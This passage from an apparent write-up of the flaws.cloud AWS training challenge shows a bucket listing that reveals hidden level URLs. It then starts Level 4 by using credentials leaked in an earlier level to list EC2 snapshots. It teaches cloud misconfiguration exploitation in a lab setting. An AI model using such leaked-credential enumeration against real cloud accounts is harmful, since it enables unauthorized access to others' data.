 ```sh
2017-05-29 12:34:53 config-bucket-975426262029
2017-02-12 15:03:24 flaws-logs
2017-02-04 22:40:07 flaws.cloud
2017-02-23 20:54:13 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-26 13:15:44 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2017-02-26 13:16:06 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2017-02-26 14:44:51 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2017-02-26 14:47:58 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2017-02-26 15:06:32 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```
Link to level 4 found :D <br>

```sh
level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
```

There were also links to level 5 and 6, however visiting them resulted in:
<br>
<img alt="cheat" src="https://github.com/user-attachments/assets/8810c640-d380-4ec7-9a39-fb94ffc014c8" style="display: block; margin-left: auto; margin-right:auto;">

(...busted!)

#### Note(s): 
I was unfamiliar with Git prior to attempting this level, so a considerable amount of time was spent reading up on it and understanding the basic commands. During my initial attempts, I only downloaded the .git folder rather than the entire bucket's content to my local directory, which proved to be a huge mistake as it prevented the ```git checkout``` command from working. 

## Level 4
**_Description:_** For the next level, you need to get access to the web page running on an EC2 at ```4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud```. It'll be useful to know that a snapshot was made of that EC2 shortly after nginx was setup on it.

Going through the [AWS CLI Command Reference for EC2](https://docs.aws.amazon.com/cli/latest/reference/ec2/describe-snapshots.html), I found the ```describe-snapshots``` command, which may be useful in this case. One of the argument it takes is ```--owner-ids```. We can try using the profile configured in the previous level:
```sh
$ aws --profile flaws ec2 describe-snapshots --owner-ids self --region us-west-2
{
    "Snapshots": [
        {
            "Description": "",
            "Encrypted": false,
            "OwnerId": "975426262029",
            "Progress": "100%",
            "SnapshotId": "snap-0b49342abd1bdcb89",
            "StartTime": "2017-02-28T01:35:12+00:00",
            "State": "completed",
            "VolumeId": "vol-04f1c039bc13ea950",
            "VolumeSize": 8,
            "Tags": [
                {
                    "Key": "Name",
                    "Value": "flaws backup 2017.02.27"
                }
            ],
            "StorageTier": "standard"
        }
    ]
}

```